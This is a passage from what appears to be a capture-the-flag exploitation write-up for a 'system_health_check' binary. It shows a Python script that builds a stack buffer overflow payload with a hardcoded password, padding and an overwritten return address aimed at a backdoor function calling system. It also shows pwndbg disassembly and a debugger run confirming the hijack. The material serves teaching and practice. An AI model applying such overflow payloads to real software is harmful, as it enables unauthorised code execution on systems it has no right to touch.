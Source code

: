 - [x] reach buffer overflow
- [x] control RIP
- [x] A function with system call `/bin/sh`



Seems everything is right.  Let me running the script:

```python
#!/usr/bin/python
import socket
import struct
import sys

def main():
    
    # creating payload
    #     
    RIP = struct.pack("<L",0x401254)
    
    payload=[
        b"sUp3r_S3cr3T_P4s5w0rD\x00",
        b"A" * 242,
        RIP  
    ]
    
    payload=b"".join(payload)
    sys.stdout.buffer.write(payload)

if __name__ == "__main__":
    main()

```

 Before, put a breakpoint in `backdoor` function:

```bash
pwndbg> disassemble backdoor
Dump of assembler code for function backdoor:
   0x0000000000401254 <+0>:	push   rbp
   0x0000000000401255 <+1>:	mov    rbp,rsp
   0x0000000000401258 <+4>:	lea    rdi,[rip+0xdd8]        # 0x402037
   0x000000000040125f <+11>:	call   0x401050 <system@plt>
   0x0000000000401264 <+16>:	nop
   0x0000000000401265 <+17>:	pop    rbp
   0x0000000000401266 <+18>:	ret
End of assembler dump.
pwndbg> b *backdoor
Breakpoint 1 at 0x401254
pwndbg>
```



```bash
pwndbg> r < a.txt
Starting program: /pwd/system_health_check < a.txt
Enter password to get system details:

Access Granted

[Detaching after vfork from child process 1012]
top - 17:15:54 up  1:55,  0 users,  load average: 0.03, 0.09, 0.05
Tasks:   6 total,   1 running,   5 sleeping,   0 stopped,   0 zombie
%Cpu(s):  0.0 us,  1.6 sy,  0.0 ni, 98.4 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
MiB Mem :   1987.5 total,    943.3 free,    370.5 used,    673.7 buff/cache
MiB Swap:   1024.0 total,   1024.0 free,      0.0 used.   1460.1 avail Mem

  PID USER      PR  NI    VIRT    RES    SHR S  %CPU  %MEM     TIME+ COMMAND
```